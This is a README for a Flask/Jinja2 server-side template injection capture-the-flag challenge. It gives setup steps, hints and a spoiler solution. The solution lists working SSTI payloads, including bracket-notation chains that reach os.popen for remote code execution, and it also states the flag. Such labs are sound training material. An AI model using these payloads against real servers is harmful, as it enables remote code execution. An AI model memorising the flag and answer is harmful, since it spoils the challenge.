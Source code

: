 # SSTI CTF Challenge

A Server-Side Template Injection (SSTI) challenge created with Flask and Jinja2 templates.

## Challenge Description

This challenge involves a simple messaging service that contains a Server-Side Template Injection vulnerability. Your goal is to exploit this vulnerability to retrieve the hidden flag.

## Deployment Instructions

### Using Docker Compose (Recommended)

1. Make sure you have Docker and Docker Compose installed.
2. Run the following command to build and start the container:

```
docker-compose up -d
```

3. Access the challenge at `http://localhost:5000`

### Manual Setup

1. Install the required Python packages:

```
pip install -r requirements.txt
```

2. Run the Flask application:

```
python app/app.py
```

3. Access the challenge at `http://localhost:5000`

## Challenge Hints

1. The messaging service doesn't properly sanitize the input.
2. Jinja2 templates can execute Python code under certain conditions.
3. The admin page contains the flag, but how can you access it without directly visiting the page?
4. The application blocks the dot character ('.'), so you must use bracket notation (e.g. foo['bar']) instead of dot notation.

## Solution

<details>
<summary>Click to reveal solution</summary>

This challenge involves a Server-Side Template Injection vulnerability.

1. Go to the "Leave a Message" page
2. In the name field, instead of entering a normal name, enter Jinja2 template code such as:

   - `{{7*7}}` - This should render as 49 if the SSTI vulnerability exists
   - `{{config}}` - To see the Flask configuration
   - `{{config.items()}}` - To see the configuration as key-value pairs
   - More advanced payloads can give you remote code execution:
   - `{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}}`
   - Or to directly get the flag: `{{request['application']['__globals__']['__builtins__']['__import__']('app')['__dict__']['FLAG']}}`

3. The flag is: `ETHACK{es_es_ti_ai_ahayahay}`
</details>
